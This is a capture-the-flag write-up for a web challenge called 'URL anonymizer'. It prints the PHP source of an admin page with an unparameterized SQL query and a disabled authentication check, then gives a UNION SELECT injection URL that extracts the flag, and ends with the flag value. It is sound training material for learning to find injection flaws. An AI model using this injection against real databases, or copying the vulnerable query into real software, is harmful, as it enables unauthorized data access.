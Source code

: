# URL anonymizer (web, 200p)

###ENG
[PL](#pl-version)

In description of the task we got URI pointing to source of admin.php and information that the application provides URL shortening functionality.
Source of file : http://10.13.37.12/admin.php?source

```php
<?php
include_once('config.php');

if(isset($_GET['source']) && $_SERVER['SCRIPT_FILENAME'] == __FILE__) {
    highlight_file(__FILE__);
    die();
}

//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    //die('You are not allowed.');
}

$title      = '';
$content = '';
$page    = @$_REQUEST['page'];
        
switch($page) {
    case '':
    default:
        
    break;
    case 'reports':
        $title = 'Reports';
        $q = $db->query('SELECT * FROM `reports` where view=0');
        while($row = $q->fetch_array()) {
            $content .= '<div class="r"><a href="http://localhost/admin.php?page=report&id='.$row['hash'].'">Report '.$row['id'].'</a><a href="http://localhost/admin.php?page=hide&id='.$row['id'].'">Hide</a></div>';
        }
    break;
    case 'hide':
        $id = intval(@$_REQUEST['id']);
        $db->query('UPDATE reports set view=1 where id='.$id);
    break;
    case 'report':
        if(isset($_GET['id'])) {
            $r        = $db->query('SELECT * FROM `urls` where hash="'.$_GET['id'].'"');
            $r        = $r->fetch_array();
            $content .= 'Clicked: '.(intval($r['hits'])>0?'Yes':'No');
            $content .= '<br>Reported URL: '.$r['url'];
            $db->query('UPDATE reports SET view=1 WHERE hash="'.$db->real_escape_string($_GET['id']).'"');
        }else {
            die('Invalid Request.');
        }
    break;
}
echo showContent($title, $content);
```

In general, we can see two different views , one where we can submit URL to be shortened
![](./screen1.png)

and the other place where we can submit wrongly working URL
![](./report.png)

However, the most interesting part is the admin.php and we can see that inside 'report' section we have unsanitized SQL Injection, therefore we try to reach this URL with already prepared query (UNION SELECT) and get in response :
URL : http://10.13.37.12/admin.php?page=report&id=1%22%20UNION%20SELECT%201,2,flag,4%20from%20flag%20where%201=%221

![](./flag.png)

flag : DCTF{30bce3bb3c2b030c1480179046409729}

###PL version
